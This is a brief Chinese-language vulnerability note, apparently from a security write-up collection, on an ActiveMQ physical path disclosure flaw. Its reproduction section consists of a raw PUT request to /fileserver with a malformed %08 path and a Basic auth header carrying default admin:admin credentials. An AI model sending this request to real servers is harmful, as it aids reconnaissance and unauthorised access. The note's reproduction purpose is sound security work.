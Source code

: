 # ActiveMQ物理路径泄漏漏洞

## 一、漏洞简介

ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息

## 二、漏洞影响

## 三、复现过程

```html
Request Raw:
PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4
```
